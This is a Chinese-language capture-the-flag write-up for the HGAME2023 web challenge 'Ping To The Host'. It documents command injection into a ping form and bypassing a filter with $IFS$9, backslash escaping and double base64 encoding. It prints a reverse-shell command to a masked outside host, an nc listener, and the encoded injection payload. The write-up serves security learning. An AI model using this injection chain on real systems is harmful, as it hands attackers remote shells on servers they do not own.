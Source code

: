 # [HGAME2023]Ping To The Host
![](<./img/Pasted image 20230125095243.png>)

![](<./img/Pasted image 20230125095259.png>)

尝试输入正常ip

```
127.0.0.1
```

```
Success
```

输入奇怪的ip

```
abclol
```

```
Failed
```

经过测试WAF把这些东西ban掉了

```
;
flag
cat
tac
<space>
+
echo
sh
<
>
```

似乎只有`Success`和`Failed`的回显，由命令的`exit_code`决定，一开始想通过类似SQL布尔盲注的形式跑脚本，然后发现自己不会写`bash`字符串截取和比较qaq

于是走了反弹`shell`

vps上监听`2333`端口

```shell
nc -lvvp 2333
```

总的来说要在靶机上执行这个

```shell
bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"
```

空格可以通过`$IFS$9`绕过，对单词的过滤也可以通过反斜杠绕过

对`<`、`>`的过滤通过`base64`编码绕过

```shell
echo 'bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"' | base64
```

![](<./img/Pasted image 20230125101455.png>)

编码结果里面出现了加号，依然绕不过，因而尝试二次编码

```shell
echo 'bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"' | base64 | base64
```

![](<./img/Pasted image 20230125101701.png>)

这下没有了，但是非常脸黑地编码结果中刚好有被过滤的单词，懒得一个一个找直接一锅端了

```
a&ec\ho$IFS$9\W\W\1\G\e\m...\Q\z\h\5\T\X\p\N\e\k\l\E\Q\S\t\K\a\k\V\p\Q\2\c\9\P\Q\o\=|base64$IFS$9-d|base64$IFS$9-d|bas\h
```

![](<./img/Pasted image 20230125102444.png>)

#Web #RCE #反弹shell #绕过 #shell 